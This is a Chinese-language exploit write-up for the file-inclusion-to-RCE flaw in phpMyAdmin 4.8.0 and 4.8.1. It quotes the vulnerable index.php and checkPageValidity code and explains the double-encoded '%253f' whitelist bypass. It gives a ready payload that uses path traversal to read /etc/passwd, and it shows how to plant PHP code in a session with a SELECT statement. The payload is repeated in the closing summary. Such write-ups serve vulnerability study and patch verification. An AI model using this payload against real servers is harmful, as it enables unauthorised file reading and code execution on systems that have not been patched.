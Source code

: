 # phpmyadmin 4.8.1 rce



## 利用条件

 phpMyAdmin 4.8.0 and 4.8.1 

登陆账号

## 漏洞复现

环境:phpstudy 2018,windows 10

漏洞位置:`index.php`:57

```php
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'])
) {
    include $_REQUEST['target'];
    exit;
}
```

非常明显的任意文件包含漏洞

前面几个条件都很好满足,我们看下最后一个`Core::checkPageValidity($_REQUEST['target'])`

跟进去

```php
public static function checkPageValidity(&$page, array $whitelist = [])
    {
        if (empty($whitelist)) {
            $whitelist = self::$goto_whitelist;
        }
        if (! isset($page) || !is_string($page)) {
            return false;
        }

        if (in_array($page, $whitelist)) {
            return true;
        }

        $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        return false;
    }
```

要返回`true`的话,需要`$page`从开头到第一个`?`之间的字符串在白名单中,有以下白名单

```php
array (
  0 => 'db_datadict.php',
....
)
```

因为复现环境是在windows下,windows文件名不能包含`?`,所以`db_datadict.php?`会变为`db_datadict.php`是一个已经存在的文件,我们便无法用`../`来穿梭目录了,但是我们可以看到` $_page = urldecode($page);`

所以我们可以构造`db_datadict.php%253f`来绕过

通用的payload:

`db_datadict.php%253f../../../../../../../../../../../etc/passwd`

可以通过` SELECT '<?=phpinfo()?>'; ` 来写shell到我们的session中

![image.png](https://i.loli.net/2020/02/08/p4l2vM6JOLsTGCd.png)

![image.png](https://i.loli.net/2020/02/08/wUZHdhJx9KSQRG7.png)

## 总结

`db_datadict.php%253f../../../../../../../../../../../etc/passwd`

可以通过` SELECT '<?=phpinfo()?>'; ` 来写shell到我们的session中